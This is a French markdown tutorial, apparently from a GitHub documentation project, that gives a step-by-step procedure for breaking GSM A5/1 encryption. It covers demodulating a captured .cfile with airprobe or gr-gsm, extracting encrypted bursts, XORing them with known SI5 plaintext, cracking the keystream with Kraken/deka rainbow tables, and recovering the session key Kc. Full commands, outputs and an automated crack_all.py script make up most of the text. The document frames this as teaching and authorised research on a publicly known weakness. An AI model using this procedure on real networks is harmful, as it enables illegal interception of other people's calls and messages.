


# Casser A5/1 — de la capture au Kc, à la main

> Récupérer le **Kc** de session d'une communication GSM chiffrée, à partir d'une
> capture `.cfile`, par **attaque à plaintext connu** + **tables arc-en-ciel** A5/1
> (Kraken / deka). Procédure **manuelle, pas à pas**, avec les **deux chaînes
> d'acquisition** — **airprobe** et **gr-gsm** — menées en parallèle.
> Méthode : [software-defined-radio.com](https://software-defined-radio.com) ·
> Outils : [github.com/bbaranoff/a51_tools](https://github.com/bbaranoff/a51_tools)

```danger

**Cadre légal.** A5/1 est le chiffrement de l'interface air 2G, cassé
publiquement depuis 2009 (Nohl / Munaut, 27C3). Ce module est **pédagogique** et
réservé à la **recherche / au pentest autorisé / à la démonstration légale**.
Intercepter des communications d'autrui sans autorisation est illégal.

```

```tip

**En une phrase.** On XORe un burst **chiffré** avec le **même** burst en clair
(un System Information, prévisible) pour obtenir du **keystream** ; les tables
arc-en-ciel (deka/Kraken) remontent ce keystream à l'**état interne** A5/1, et
`find_kc` en tire le **Kc** — vérifié sur une seconde trame.

```

## Le principe

A5/1 est un **chiffrement par flot** à **état interne de 64 bits** (3 LFSR),
initialisé par la clé de session **Kc** (dérivée du Ki de la SIM via A3/A8). Il
chiffre bit à bit : `chiffré = plaintext ⊕ keystream`, où le keystream ne dépend que
de `(Kc, numéro de trame)`.

L'attaquant **ne calcule jamais A5/1**. Il lui faut un segment de **keystream**
(≥ 64 bits sans erreur), que **deka/Kraken** retournent vers l'**état interne** par
compromis temps-mémoire (~8 To de tables pour la couverture complète). De l'état,
`find_kc` remonte au **Kc**.

Le keystream s'obtient **sans la clé**, par XOR avec du **plaintext connu** — les
**System Information 5/6** de la SACCH : contenu **fixe**, **répété toutes les 102
trames**, et dont le LAI/cell se lit en clair sur le **BCCH** (jamais chiffré).



---

## Deux chaînes d'acquisition — **airprobe // gr-gsm**

Les étapes 1 à 3 (démoduler, repérer le canal, sortir les bursts chiffrés)
s'obtiennent avec **l'une OU l'autre** des deux chaînes. Elles produisent le **même
GSMTAP** (donc la même vue Wireshark) et les **mêmes bursts** ; à partir de l'étape
4, tout est commun.

| | **airprobe** | **gr-gsm** |
|---|---|---|
| Base | GNU Radio 3.7 (image Docker prête) | GNU Radio 3.8+ (`grgsm_*`) |
| Démodulation | `go_usrp2.sh <cfile> <arfcn> [canal]` | `grgsm_decode` / `grgsm_livemon` |
| Sortie bursts | `C1/C0 <fn> <count>: <114 b>` | `grgsm_decode -p` (même bitstring) |
| Vers Wireshark | GSMTAP → `lo` | GSMTAP → `lo` |
| Idéal pour | rejeu de `.cfile` historiques | live SDR + scripts modernes |

---

## L'attaque, pas à pas

Cible : une capture d'appel dont on **connaît le Kc d'avance**
(`…Kc1EF00BAB3BAC7002.cfile`, ARFCN 174) — pour **vérifier** le résultat à la fin.



### 1. Démoduler la capture → GSMTAP

D'abord Wireshark, qui écoute le GSMTAP sur `lo` (les deux chaînes y envoient) :

```bash
sudo wireshark -k -f udp -Y gsmtap -i lo &
```

**Chaîne airprobe** (image Docker) :

```bash
sudo docker run -it --net host bastienbaranoff/airprobe
# dans le conteneur :
cd /opt/airprobe/gsm-receiver/src/python
./go_usrp2.sh vf_call6_…_Kc1EF00BAB3BAC7002.cfile 174
```

**Chaîne gr-gsm** (équivalent, GNU Radio 3.8+) — décode la signalisation du
`.cfile` et pousse le GSMTAP vers Wireshark :

```bash
grgsm_decode -c vf_call6_…_Kc1EF00BAB3BAC7002.cfile \
             -s 1083333 -a 174 -m BCCH_SDCCH4 -t 0 -v
# (en live sur SDR : grgsm_livemon -f 939.4M -g 40)
```

### 2. Repérer le canal dédié — Wireshark (commun)

Ouvrir un **Immediate Assignment** (GSM CCCH) → *Channel Description*. Ici, le canal
dédié est un **SDCCH/8 sur TS1** (`1S`) :

```text
0C : TS0  combiné (FCCH + SCH + BCCH + CCCH + SDCCH/4)
0B : TS0  FCCH + SCH + BCCH + CCCH
1S : TS1  SDCCH/8          ← notre canal
2T : TS2  trafic Full Rate
```

### 3. Extraire les bursts **chiffrés** (C1/C0)

On cible le canal trouvé et on sort les bursts **sans la clé**.

**airprobe** — relancer sur le canal `1S` ; la sortie donne les bursts au format
`C{1,0} <fn> <framecount>: <114 bits>` :

```bash
./go_usrp2.sh vf_call6_…_Kc1EF00BAB3BAC7002.cfile 174 1S
```

**gr-gsm** — `grgsm_decode -p` imprime les mêmes bursts (pas de `-e/-k`, donc
**chiffrés**) :

```bash
grgsm_decode -c vf_call6_…_Kc1EF00BAB3BAC7002.cfile \
             -s 1083333 -a 174 -m SDCCH8 -t 1 -p > my.bursts
```

La SACCH **répète** le même SI toutes les 102 trames : on retrouve le bloc SI5,
chiffré. On ne garde que **C1** (1ᵉʳ du bloc) et **C0** (suivants) :

```text
C1 862446 1332352: 010010100010111111011010010010111000000101010000100100111111001010100111110000101001110000101110100011111000010001
C0 862447 1332385: 011100001000110111001101011011111001010000110001101001000100000011111101000110010100011001100001100100000010101110
C0 862448 1332418: 111010110111001011110001011101101100010000101110111000010000000101110001010100100101011010000010110110110111001011
C0 862449 1332451: 011111110010110100001100001101110001001110100011010010111001001010111001001101000010111100101100110100000110110000
```

### 4. Récupérer le plaintext connu — SI5 (commun)

Le **BCCH** (jamais chiffré) donne le SI5/SI6. On relève les 23 octets du bloc et on
remet le **Timing Advance à 0** (valeur canonique du plaintext) :

```text
TA=1 : 0001030349061d9f6d1810800000000000000000000000
TA=0 : 0000030349061d9f6d1810800000000000000000000000   ← plaintext connu
```

*(gr-gsm : `grgsm_decode … -m BCCH_SDCCH4 -t 0 -v` affiche les System Information en
clair.)*

### 5. Ré-encoder le plaintext en bursts (GSM 05.03)

`GSMFramecoder` (ou [`gsmcode.py`](https://github.com/bbaranoff/a51_tools)) applique
**Fire (224,184) + tail + convolutif ½ (K=5) + entrelacement** et sort les **4
bursts de 114 bits** du bloc SI5 :

```text
Decoding 0000030349061d9f6d1810800000000000000000000000
Burst1: 001000000001010000100000001100100010000011000000100000000110101000000000001011010001000000110100001000101001000110
Burst4: 110000001100100100000101000010010101000000000000000100000001010100001010000000000010100100011110000000000010101000
```

### 6. XOR chiffré ⊕ clair = **keystream**

`xor.py` (dans `kraken/Utilities/`) XORe deux bitstrings de 114 caractères :

```python
# python xor.py <burst_chiffré_114> <burst_clair_114>
for i in range(114):
    r += chr(48 ^ ord(a[i]) ^ ord(b[i]))     # 48 = '0'  → sort du '0'/'1'
```

```bash
cd /mnt/kraken/Utilities
python xor.py <C0_862449> <Burst4>
# → 101111111110010000001001001111100100001110100011010110111000011110110011001101000000011000110010110100000100011000
```

### 7. Cracker le keystream — deka / Kraken

deka (OpenCL/GPU) écoute sur le port **6666** :

```text
$ telnet 0 6666
crack 101111111110010000001001001111100100001110100011010110111000011110110011001101000000011000110010110100000100011000
Cracking #1 …
Found D5EB21665D2B8F25 @ 13 #1 (table:172)
crack #1 took 6249 msec
```

deka retourne l'**état interne** (`D5EB21665D2B8F25`) et la **position** (`@ 13`).

```warning

**Une "Found" n'est pas une preuve.** Hit ~22–24 % par table (~50–60 % avec
plusieurs jeux) : il faut souvent cracker **plusieurs blocs**, et un burst bruité
donne un keystream faux → aucun hit. Seul `find_kc` **confirme** le Kc (étape 8).

```

### 8. Remonter au Kc et le vérifier (`find_kc`)

`find_kc` prend l'état (en **décimal** + suffixe `x`), la position, le `framecount`
de la trame crackée, puis une **2ᵉ trame** (framecount + son keystream) pour
**valider** :

```bash
# D5EB21665D2B8F25 (hex) → 15414450873139171109 (déc) → 'x'
./find_kc 15414450873139171109x 13  1332451 1332352 \
  011010100011101111111010011110011010000110010000000100111001100010100111111011111000110000011010101011010001010111
```

```text
#### Found potential key (bits: 13)####
Framecount is 1332451
KC(0): b7 09 2a b2 c9 5c 86 32   mismatch
KC(1): 1e f0 0b ab 3b ac 70 02   *** MATCHED ***
KC(2): 9f 5b 40 35 57 b2 96 4d   mismatch
…
```

✅ **`KC = 1E F0 0B AB 3B AC 70 02`** — exactement la clé annoncée dans le nom du
fichier `…Kc1EF00BAB3BAC7002.cfile`. La session entière (voix, SMS) se déchiffre, et
la **signature COMP128v1** se lit dans les octets de poids faible du Kc (voir
[GSM étape par étape — authentification](3-GSM-etape-par-etape.md)).

---

## Automatiser : `a51_tools`

Tout le manuel ci-dessus, de bout en bout depuis le `.cfile` (chaîne **gr-gsm**) :

```bash
# deka doit tourner (paplon.py + oclvankus.py + delta_client.py, port 6666)
python3 crack_all.py slice_dl.cfile
```

| fichier | rôle |
|---|---|
| `ciphereds.py` | charge les bursts chiffrés, regroupés en blocs de 4 |
| `plaintexts.py` | catalogue de plaintext connu (fill / SI5 / SI6) ré-encodé |
| `gsmcode.py` | codeur GSM 05.03 (validé au bit près vs `GSMFramecoder`) |
| `crack.py` | attaque un bloc précis : XOR → deka → find_kc |
| `crack_all.py` | de bout en bout depuis le `.cfile`, crack en masse + croisement |

**Un crack réel** (`crack_all.py`) : `slice_dl_20260821180631.cfile`, ARFCN 514 @
1 083 333 Hz, **24 blocs / 53 keystreams**, état `12434AE706D27553` (bitpos 25,
count 93190) → **✅ Kc = `9E B9 0C 45 8B D8 E0 00`**.

---

## Prérequis & tables

- **Tables arc-en-ciel A5/1** — [infocon.org](https://infocon.org/rainbow%20tables/A51/)
  (~8 To pour la couverture complète ; 6 tables suffisent pour s'entraîner).
- **[gr-gsm](https://github.com/ptrkrysik/gr-gsm)** — `grgsm_decode`,
  `grgsm_livemon` (acquisition moderne).
- **[Kraken](https://github.com/joswr1ght/kraken)** — cracker CPU + `Utilities/`
  (`xor.py`, `find_kc`).
- **deka** ([jenda.hrach.eu/p/deka](https://jenda.hrach.eu/p/deka)) — cracker
  **OpenCL** (GPU), orchestré par `paplon.py` / `oclvankus.py` / `delta_client.py`.
- Installation complète (LVM des index, patch Kraken, build deka, pipeline) :
  **[software-defined-radio.com](https://software-defined-radio.com)**.

---

*Modules liés : [Émulation du baseband Calypso](2-QEMU-Calypso.md) ·
[GSM étape par étape](3-GSM-etape-par-etape.md). Source de la méthode :
[software-defined-radio.com](https://software-defined-radio.com).*

<details>
<summary>🥚 <em>Un œuf de Pâques, pour qui lit jusqu'ici…</em></summary>

<blockquote>
<p>La documentation et les sources de <a href="https://github.com/bbaranoff/qemu-calypso"><code>qemu-calypso</code></a> +
<a href="https://github.com/bbaranoff/osmo_egprs"><code>osmo_egprs</code></a> forment un corpus qui, un jour de comptage
oisif, a été pesé au <code>wc</code> :</p>

<table>
<thead><tr><th></th><th>Mots</th></tr></thead>
<tbody>
<tr><td>La Bible (King James Version)</td><td>783 137</td></tr>
<tr><td><strong>Corpus Calypso + osmo_egprs</strong></td><td><strong>862 028</strong></td></tr>
</tbody>
</table>

<p>Soit <strong>110 % de la Bible, +78 891 mots</strong> — à peu près un livre de
l'Ancien Testament d'avance, ~2 900 pages contre ~1 200. Un apocryphe entier,
écrit en désassemblage TMS320C54x. 📖📡</p>

<p><small>Astérisque d'honnêteté : c'est un décompte au <code>wc</code>, docs +
sources confondues. La révélation n'engage que le corrélateur de FCCH.</small></p>
</blockquote>

</details>
